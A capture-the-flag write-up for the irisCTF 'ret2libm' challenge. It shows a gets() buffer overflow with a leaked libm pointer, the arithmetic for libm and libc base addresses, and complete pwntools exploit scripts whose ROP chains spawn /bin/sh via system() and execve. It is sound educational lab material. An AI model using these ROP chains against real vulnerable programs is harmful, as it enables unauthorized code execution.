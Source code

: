 ```yaml
---
title: "irisCTF-ret2libm"
date: 2023-02-01T12:13:32+05:30
description: "ret2libc but with some other steps"
tags: [python, ret2lic, pwn]
---
```


## The Challenge

I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?\
Author: sera\
[ret2libm.zip](https://cdn.discordapp.com/attachments/1056103369695047750/1056146650860621834/ret2libm.zip) / [Dockerfile](https://cdn.discordapp.com/attachments/1056103369695047750/1061498899271004251/Dockerfile)

## The Provided ZIP

- chal
  - Provided binary
- chal.c
  - Source which binary comes from
- libc-2.27.so
  - Provided libc version
- libm-2.27.so
  - Provided libm version
- Makefile
  - Provided compilation flags

## What is libm?

- `#include <math.h>`
  - libm is the standard math library for C.

## Where does libm live?

```x86asm
$ ldd chal
        linux-vdso.so.1 (0x00007fffd53f5000)
        libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007efd9df21000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007efd9dd40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007efd9e247000)
```

libm lives above libc in the dynamic linking of the binary, meaning we can compute the base address of libc from the base address of libm since the offset is always the same.

## chal.c

```c
#include <math.h>
#include <stdio.h>

int main(int argc, char* argv) {
    char yours[8];
    printf("Check out my pecs: %p\n", fabs);    // Function pointer leak
    printf("How about yours? ");
    gets(yours);                                // Vulnerable gets() call
    printf("Let's see how they stack up.");
    return 0;
}
```

## Plan of Attack

1. Get the leaked fabs() address
2. Calculate the base address of libm
3. Calculate the base address of libc
4. Overflow the gets() call
5. Build a ROP chain off of libc gadgets
6. Shell?

## Actually Executing That

1. Get the leaked fabs() address

```py
p.recvuntil(b'pecs: ')
fabs_libm_leak = int(p.recvline().strip(b"\n"), 0)
```

2. Calculate the base address of libm

```py
# fabsf64 from GDB
# readelf -s libm-2.27.so | grep fabsf64
# 0x7fe539640000 - 0x7fe539a31000 = 0x3f1000 
# Offset = 0x31cf0
libm.address = fabs_libm_leak - (libm.sym['fabsf64']) 
```

3. Let’s finish up this PWN!

```py
libc.address = libm.address - 0x3f1000                      # Use calculated offset to set libc
…
chain = b''
chain += cyclic(16)                                         # 16 Byte Overflow
chain += p64(r_libc.find_gadget(['ret'])[0])                # Realign stack
chain += p64(r_libc.find_gadget(['pop rdi', 'ret'])[0])     # system() paremeter
chain += p64(next(libc.search(b'/bin/sh')))                 # Load /bin/sh into system()
chain += p64(libc.sym['system'])                            # Run as system call
…
p.interactive()
```

## Flag Acquired

`irisctf{oh_ its_ ret2libc_anyway}`

## Cool Other Write-Up

All credit for the code below is from [Elvis#6356](https://discord.com/channels/1051808836593397781/1061791437785677905/1061922707874263172). This uses only libm to build the exploit and make an execve syscall.

```py
    syscall = libm_base + 0x3f39
    pop_rsi = libm_base + 0x289d3
    pop_rdi = libm_base + 0x0bc37
    pop_rdx = libm_base + 0x4c5c2
    pop_rax = libm_base + 0x1a3c8
    mov_dword_rdi_edx = libm_base + 0x51106     # Used to load /bin/sh into writable memory
...
   payload += p64(pop_rdi)
    payload += p64(writable_addr)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(pop_rdx)
    payload += p64(0)
    payload += p64(pop_rax)
    payload += p64(59)
    payload += p64(syscall)                     # execve(“/bin/sh”, 0, 0)
```

## Final Exploit Code

```py
# ret2libm2libc
from pwn import *
context.log_level = 'debug'

# Setup for Run
binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]

# Break gets()
gs = '''
break *main+131
continue
'''

# Load In Binary & ROPGadget it
e = context.binary = ELF(binary,checksec=False)
r = ROP(e)

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    else:
        return process(e.path)

# Stuff
p = start()

# Leak LibM address
p.recvuntil(b'pecs: ')
fabs_addr = p.recvline().strip(b"\n")
print(fabs_addr)
fabs_libm_leak = int(fabs_addr, 0)

# Load in teh libs
libc = ELF('libc-2.27.so', checksec = False)
libm = ELF('libm-2.27.so', checksec = False)

# Calculate LibM base
libm.address = fabs_libm_leak - (libm.sym['fabsf64']) # fabsf64 from GDB # 0x31cf0
log.info('LibM base is at 0x%x ' %libm.address)


# Set LibC address correctly
libc.address = libm.address - 0x3f1000
log.info('LibC base is at 0x%x ' %libc.address)

# ROP LibC with new base addresses
r_libc = ROP(libc)

# ret2libc chain
chain = b''
chain += cyclic(16)
chain += p64(r_libc.find_gadget(['ret'])[0])            
chain += p64(r_libc.find_gadget(['pop rdi', 'ret'])[0]) 
chain += p64(next(libc.search(b'/bin/sh')))            
chain += p64(libc.sym['system'])                        

# Send the chain
p.sendlineafter(b'How about yours?', chain)

# Shell plz?
p.interactive()
```